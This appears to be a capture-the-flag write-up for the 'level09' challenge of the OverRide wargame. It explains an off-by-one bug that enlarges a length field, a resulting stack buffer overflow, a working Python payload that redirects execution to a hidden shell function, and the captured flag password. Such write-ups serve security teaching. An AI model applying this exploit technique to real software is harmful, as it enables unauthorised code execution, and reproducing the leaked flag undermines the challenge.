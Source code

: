 # level09

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program is vulnerable to `buffer overflow` attack.

First, I found this function while disassembled code, and the goal of the level became obvious. We need to call this function.
```c
void secret_backdoor(void) {
    char tmp[128];

    fgets(tmp, 128, stdin);
    system(tmp);
}
```

Let's find out it's address:
```bash
(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

To call this function we need first to analyze the [source code](./source.c):
```c
struct s_data {
    int len;
    char username[40];
    char msg[140];
};
...
void handle_msg() {
    struct s_data data;

    memset(data.username, 0, 40);

    data.len = 140;
    set_username(&data);
    set_msg(&data);
    puts(">: Msg sent!");
}
```

First, thing we see, that `data` contains two buffers that possibly can be overflowed. <br>
The size of this struct is 140 + 40 + 4 = 184 bytes. <br>

From the disassembled code, we can see that in the `handle_msg` 192 bytes allocated on stack. <br>
And the address of beginning of the `data` is `RSP` or `RBP - 192`. <br>
To overwrite return address of this function, we need to overwrite 192 bytes reserved for local variables, <br>
8 bytes for saved `EBP` and the next 8 bytes will be the address of saved `EIP` we need to change.
```asm
handle_msg:
    push   %rbp
    mov    %rsp,%rbp
    sub    $0xc0,%rsp   ; 192 bytes allocated on stack`
   
    lea    -0xc0(%rbp),%rax
    ...
```

Now let's put our attention at `set_msg` function, as it reads a way too more chars than the size of buffer we want to overflow:
```c
void set_msg(struct s_data *data) {
    char tmp[1024];

    memset(tmp, 0, 1024);
    puts(">: Msg @Unix-Dude");
    printf(">>: ");

    fgets(tmp, 1024, stdin);

    strncpy(data->msg, tmp, data->len);
}
```
Well, the only thing that stops us from copying using `strncpy` is `data->len` set to 140 in the `handle_msg`. <br>

A little mistake in the source code helps us to avoid this restriction:
```c
void set_username(struct s_data *data) {
    int i;
    char tmp[140];

    memset(tmp, 0, 128);
    puts(">: Enter your username");
    printf(">>: ");

    fgets(tmp, 128, stdin);

    for (i = 0; i <= 40 && tmp[i]; i++) {
        data->username[i] = tmp[i];
    }
    printf(">: Welcome, %s", data->username);
}
```

Not see ? `for` loop copying `41` bytes instead of 40, and this last byte is the lowest 8 bits of `data->len`. <br>
This helps us to increase data->len up to 0xff or `255`. <br>

We don't need that much, `208` bytes (`0xd0`) will be perfect. <br>
Again, 140 bytes of `msg` + 40 bytes of `username` + 4 bytes of `len` + 8 unused bytes + 8 bytes for saved `EBP` + 8 bytes for new return address.

We should also remember about `\n` if we don't want first `fgets` to read more than we want to.

Let's finish this great project as well as the branch:
```bash
level09@OverRide:~$ (python -c 'print "mhufflep" * 5 + "\xd0\x0a" + "mhufflep" * 25 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1]'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, mhufflepmhufflepmhufflepmhufflepmhufflep�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cd ../end
ls -la
total 13
dr-xr-x---+ 1 end  end     80 Sep 13  2016 .
dr-x--x--x  1 root root   260 Oct  2  2016 ..
-rw-r--r--  1 end  end    220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root root     7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 end  end   3489 Sep 10  2016 .bashrc
-rwsr-s---+ 1 end  users    5 Sep 10  2016 end
-rw-r--r--+ 1 end  end     41 Oct 19  2016 .pass
-rw-r--r--  1 end  end    675 Sep 10  2016 .profile
cat .pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## References
- [PIC and PIE](https://stackoverflow.com/questions/28119365/what-are-the-differences-comparing-pie-pic-code-and-executable-on-64-bit-x86-pl)
- [RIP relative addressing](https://stackoverflow.com/questions/44967075/why-does-this-movss-instruction-use-rip-relative-addressing)
- [more PIC and PIE](https://leimao.github.io/blog/PIC-PIE/)
- [Load-time relocation of shared libraries](https://eli.thegreenplace.net/2011/08/25/load-time-relocation-of-shared-libraries/)
- [Russian translate](https://habr.com/ru/company/badoo/blog/323904/#1-esli-konechno-vse-do-odnogo-prilozheniya-ne-zagruzyat-etu-biblioteku-po-odnomu-i-tomu-zhe-virtualnomu-adresu-no-tak-v-linux-obychno-ne-delaetsya)
